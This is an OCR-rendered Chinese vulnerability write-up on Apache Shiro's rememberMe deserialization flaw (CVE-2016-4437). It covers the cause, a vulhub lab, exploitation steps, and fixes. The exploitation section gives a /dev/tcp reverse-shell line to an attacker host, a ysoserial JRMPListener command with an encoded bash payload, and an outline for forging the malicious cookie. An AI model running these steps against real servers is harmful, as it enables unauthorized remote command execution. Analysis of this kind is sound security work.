``# Apache Shiro反序列化漏洞分析（Shiro550/CVE-2016-4437）
## 目录 
1. [漏洞概述](#漏洞概述) 
2. [前置知识](#前置知识) 
3. [漏洞成因](#漏洞成因) 
4. [影响版本](#影响版本) 
5. [环境搭建](#环境搭建) 
6. [漏洞利用](#漏洞利用) 
7. [检测与防御](#检测与防御) 
8. [相关资源](#相关资源) 
9.

--- ##漏洞概述 Apache Shiro框架在`rememberMe`功能实现中存在反序列化漏洞，攻击者可通过构造恶意Cookie执行任意命令。该漏洞编号为**CVE-2016-4437**，又称**Shiro550**。 --- ## 前置知识 
1. ### 关键漏洞链 
2. **Java反序列化**：`readObject()`方法的安全风险 
3. **Commons Collections利用链**：`InvokerTransformer`类的命令执行 
4. **Fastjson反序列化**：JdbcRowSetImpl的JNDI注入 ---  ## 漏洞成因 ### 身份验证流程缺陷 ```mermaid graph TD     A[用户登录] --> B{勾选RememberMe}    B --> |是| C[序列化+AES加密+Base64编码]    C --> D[写入Cookie]    D --> E[服务端解密反序列化]    E --> F[触发反序列化漏洞]``

### 核心问题

- **硬编码密钥**：使用默认密钥`kPH+bIxk5D2deZiIxcaaaA==`
- **未校验数据完整性**：缺少签名机制

---

## 影响版本

- Apache Shiro ≤ 1.2.4

---

## 环境搭建

### 本地环境（IDEA）

XML

`<!-- pom.xml关键依赖 --> <dependency>     <groupId>javax.servlet</groupId>     <artifactId>jstl</artifactId>     <version>1.2</version> </dependency> <dependency>     <groupId>org.apache.commons</groupId>     <artifactId>commons-collections4</artifactId>     <version>4.0</version> </dependency>`

### Docker环境（vulhub）

Bash

`cd /vulhub/shiro/CVE-2016-4437 docker-compose up -d`

访问`http://your-ip:8080`，使用账号`admin/vulhub`

---

## 漏洞利用

### 利用工具链

|工具名称|作用描述|
|---|---|
|ysoserial|生成反序列化Payload|
|JRMPListener|搭建恶意RMI服务|
|ShiroExploit|自动化漏洞检测与利用工具|

### 攻击流程

5. **生成反弹Shell命令**

Bash

`bash -i >& /dev/tcp/attacker-ip/port 0>&1`

6. **启动JRMP监听**

Bash

`java -cp ysoserial.jar ysoserial.exploit.JRMPListener 8888 CommonsCollections5 "bash -c {echo,base64_payload}|{base64,-d}|{bash,-i}"`

7. **构造恶意Cookie**

Python

`# 使用Python脚本生成加密Payload from Crypto.Cipher import AES import base64 key = base64.b64decode("kPH+bIxk5D2deZiIxcaaaA==") # ...加密逻辑省略... print("rememberMe=" + encrypted_payload)`

8. **发送恶意请求**

Http

`POST /doLogin HTTP/1.1 Cookie: rememberMe=ENCRYPTED_PAYLOAD...`

---

## 检测与防御

### 漏洞特征

- HTTP响应头包含`rememberMe=deleteMe`
- 使用FOFA搜索：`header="rememberme=deleteMe"`

### 修复方案

9. **升级Shiro**：≥1.2.5版本
10. **动态密钥**：配置`securityManager.rememberMeManager.cipherKey`

Java

`public class CustomKeyGenerator implements CipherKeyGenerator {     public byte generateKey() {         // 生成随机密钥     } }`

11. **安全加固**：
    - 禁用RememberMe功能
    - 部署WAF过滤反序列化流量

---

## 相关资源

- [Shiro官方公告](https://issues.apache.org/jira/browse/SHIRO-550)
- [漏洞验证POC](https://github.com/vulhub/vulhub/tree/master/shiro/CVE-2016-4437)
- [反序列化防护库](https://github.com/ikkisoft/SerialKiller)